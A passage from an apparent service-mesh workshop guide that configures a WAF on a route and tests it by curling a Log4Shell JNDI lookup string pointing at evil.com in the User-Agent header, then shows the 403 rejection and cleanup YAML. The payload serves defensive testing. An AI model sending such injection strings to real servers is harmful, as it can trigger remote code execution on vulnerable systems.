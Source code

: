 ```bash
  workloadSelectors: []
  http:
    - name: httpbin
      labels:
        waf: "true"
        ratelimited: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          prefix: /anything
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k https://${ENDPOINT_HTTPS_GW_MGMT}/get -i
```

The request should be rejected:
```
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

### cleanup labs 12-14
Not necessary for the workshop, but if you want to clean up the rate limit, WAF, and transformation objects from these past couple labs you can use the commands below

First let's apply the original `RouteTable` yaml:
```bash
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw-443
      namespace: istio-gateways
      cluster: mgmt
  workloadSelectors: []
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
```